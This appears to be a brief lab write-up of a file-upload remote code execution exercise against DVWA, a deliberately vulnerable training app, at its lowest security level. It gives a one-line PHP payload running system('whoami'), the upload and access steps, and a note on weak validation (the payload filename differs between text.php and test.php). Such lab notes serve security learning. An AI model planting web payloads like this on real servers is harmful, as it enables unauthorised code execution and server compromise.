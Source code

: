 # DVWA - File Upload RCE (Low)

**Target:** File Upload Page  
**Sec Level:** Low

**Payload:** text.php
```php  
  <?php echo "Hi there~ !"; system('whoami'); ?>  
```
    
## Steps taken:
1. Set sec to low
2. Upload test.php
3. Access the file via /dvwa/hackable/uploads/test.php
4. Successful code exe

## Final notes
improper file validation can lead to remote code execution - in specific environments, this can be exploited for full server compromise
